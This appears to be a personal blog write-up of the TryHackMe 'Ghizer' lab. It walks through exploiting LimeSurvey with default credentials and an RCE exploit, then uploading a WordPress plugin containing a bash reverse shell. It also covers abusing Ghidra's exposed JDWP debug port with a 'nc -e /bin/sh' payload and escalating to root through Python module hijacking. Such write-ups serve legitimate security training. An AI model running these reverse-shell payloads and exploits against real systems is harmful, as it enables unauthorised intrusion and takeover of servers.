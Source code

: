 ```yaml
---
layout: post
title:  "THM - Ghizer"
date:   2020-09-08 20:00:00 +1000
category: hacking
---
```


## Introduction
*lucrecia has installed multiple web applications on the server.*

Okay, good to know. This one is Medium rated. Let's begin.

## Ports
Nmap says we've got these ports:

- 21/tcp    open  ftp
- 80/tcp    open  http
- 443/tcp   open  https
- 18002/tcp open  unknown
- 35767/tcp open  unknown
- 38959/tcp open  unknown

A more detailed scan reveals Port 18002 is for **Java RMI** and 38959 appears associated; it's still not clear what 35767 is. The scan suggests anonymous access may be available for the FTP server, so let's try that.

## FTP
And no dice. Moving on...

## Webserver
Oftentimes port 80 will be the HTTP version of a site and 443 will be the HTTPS version, but in this case we've got two different webapps. On port 80 we've got LimeSurvey, and on 443 we've got Wordpress. 

Running **wpscan** on the Wordpress site we find a user called *Anny*, but nothing else immediately useful.

## LimeSurvey
Wikipedia says LimeSurvey is: *...a free and open source on-line statistical survey web app written in PHP based on a MySQL, SQLite, PostgreSQL or MSSQL database...*

Running searchsploit shows there is an authenticated RCE vulnerability in versions before 3.16, and - spoiler alert - as it turns out we've got version 3.15.9. We do need some credentials though.

After doing some enumeration, we find there are *lots* of pages on this site - I spidered with OWASP ZAP and frankly was scared by the results. However searching for the string *Anny* didn't turn anything up. Now what?

## Default Credentials
The default credentials for LimeSurvey are **admin:password**. Can't be that easy can it? Yes, yes it can. The exploit is for **CVE-2018-17057** and there is a python version in ExploitDB; it works like a charm. With this, we get a shell as *www-data* and we can read the credentials in  *application/config/config.php*. This gives us a password for *Anny*.

This shell seems a bit restricted though; we don't seem to be able to *cd* to the server root for some reason - we're stuck in /var/www/html.

Anyway, we've got the password for *Anny*, so let's forget about this for now and go to Wordpress.

## Wordpress
The wordpress site is hiding *wp-admin* with a plugin, but it's not hard to find. We log in as Anny using the password we read earlier; now we need to get a shell.

## Plugin
Directly editing the PHP code in any of the three existing installed plugins doesn't seem to work (note only one is active when you boot the box), nor does editing the PHP code in the installed theme (on the 404 page for example). However, we can upload a new plugin as a zip file:

{% highlight php %}
<?php

/**
* Plugin Name: Reverse Shell Plugin  
* Plugin URI:  
* Description: Reverse Shell Plugin  
* Version: 1.0  
* Author: Vince Matteo  
* Author URI: http://www.sevenlayers.com  
*/

exec("/bin/bash -c 'bash -i >& /dev/tcp/10.9.10.123/1234 0>&1'");
?>
{% endhighlight %}

This needs to be zipped though:

``
root@kali:/opt/tryhackme/ghizer# zip rev-plugin.zip ./rev-plugin.php
``

Once it's zipped we can add our new plugin via the web interface. We install and activate it and catch the shell with our listener; we're in.

## On the box
Linpeas shows something interesting:

{% highlight shell %}
veronica  1734  0.3  9.0 2861276 184240 ?      Sl   01:57   0:13 /usr/lib/jvm/java-11-openjdk-amd64/bin/java -Djava.system.class.loader=ghidra.GhidraClassLoader -Dfile.encoding=UTF8 -Dsun.java2d.pmoffscreen=false -Dsun.java2d.opengl=false -Dsun.java2d.xrender=false -Dhttps.protocols=TLSv1,TLSv1.1,TLSv1.2 -Dghidra.cacerts= -Dcpu.core.limit= -Dcpu.core.override= -Dfont.size.override= -Xdebug -Xnoagent -Djava.compiler=NONE -Dlog4j.configuration=/home/veronica/ghidra_9.0/support/debug.log4j.xml -Xrunjdwp:transport=dt_socket,server=y,suspend=n,address=127.0.0.1:18001 -Dcom.sun.management.jmxremote.port=18002 -Dcom.sun.management.jmxremote.authenticate=false -Dcom.sun.management.jmxremote.ssl=false -showversion -cp /home/veronica/ghidra_9.0/support/../Ghidra/Framework/Utility/lib/Utility.jar ghidra.GhidraLauncher ghidra.GhidraRun
{% endhighlight %}

What does all this mean? Well, it looks like user Veronica is running Ghidra with debug mode turned on. Why is this important? Ghidra runs in Java and the [Java Debug Wire Protocol](https://ioactive.com/hacking-java-debug-wire-protocol-or-how/) is hackable.

The blog post I linked has some exploit code, but we need to copy it to the box. I made a local copy on my Kali machine and uploaded it to /dev/shm in the same way I would for linpeas; with the python simple server and wget.

Does it work?
{% highlight shell %}
www-data@ubuntu:/dev/shm$ python ./jdwp-shellifier.py -t localhost -p 18001 --cmd "nc -e /bin/sh 10.9.10.123 1235"
d "nc -e /bin/sh 10.9.10.123 1235"alhost -p 18001 --cm 
[+] Targeting 'localhost:18001'
[+] Reading settings for 'OpenJDK 64-Bit Server VM - 11.0.5'
[+] Found Runtime class: id=1f3c
[+] Found Runtime.getRuntime(): id=7fbec8032d08
[+] Created break event id=2
[+] Waiting for an event on 'java.net.ServerSocket.accept'
[+] Received matching event from thread 0x1fe3
[+] Selected payload 'nc -e /bin/sh 10.9.10.123 1235'
[+] Command string object created id:1fe4
[+] Runtime.getRuntime() returned context id:0x1fe5
[+] found Runtime.exec(): id=7fbec8032d40
[+] Runtime.exec() successful, retId=1fe6
[!] Command successfully executed
{% endhighlight %}

Yes it does, but with one trick. Initially it hangs on:

>Waiting for an event on 'java.net.ServerSocket.accept'

We could try a different Java method as the trigger (with the switch --break-on), but remember our earlier connection with the LimeSurvey exploit? If we do this:

{% highlight shell %}
$ telnet 127.0.0.1 18002
Trying 127.0.0.1...
Connected to 127.0.0.1.
Escape character is '^]'.
{% endhighlight %}

Then we get our event on our *java.net.ServerSocket.accept* and our **jdwp** exploit completes. Note I had to try a few different reverse shells to get one that worked; the PHP one I used earlier didn't seem to like this.

## Veronica
Now we're the user **veronica**. What can she do?

{% highlight shell %}
User veronica may run the following commands on ubuntu:
    (ALL : ALL) ALL
    (root : root) NOPASSWD: /usr/bin/python3.5 /home/veronica/base.py
{% endhighlight %}

Right, so what is that file?

{% highlight shell %}
veronica@ubuntu:~$ cat base.py
cat base.py
import base64

hijackme = base64.b64encode(b'tryhackme is the best')
print(hijackme)
{% endhighlight %}

## Privesc
Looks like this one has been made simple for us. We just need our own **base64.py** file:

{% highlight shell %}
veronica@ubuntu:~$ echo 'import os;os.system("/bin/bash")' > base64.py
echo 'import os;os.system("/bin/bash")' > base64.py
veronica@ubuntu:~$ sudo -u root /usr/bin/python3.5 /home/veronica/base.py
sudo -u root /usr/bin/python3.5 /home/veronica/base.py
root@ubuntu:~# cd /root  
root@ubuntu:/root# cat root.txt
cat root.txt
FLAG_GOES_HERE
{% endhighlight %}

Oh yeah, that's the stuff.

## Footnote
It was good to get this one done. I'm currently roadblocked on *The Blob Blog*. I know what to do to get it done, but for some reason - me being a dumbass probably - I haven't been able to get a certain binary to unlock the door for me. 
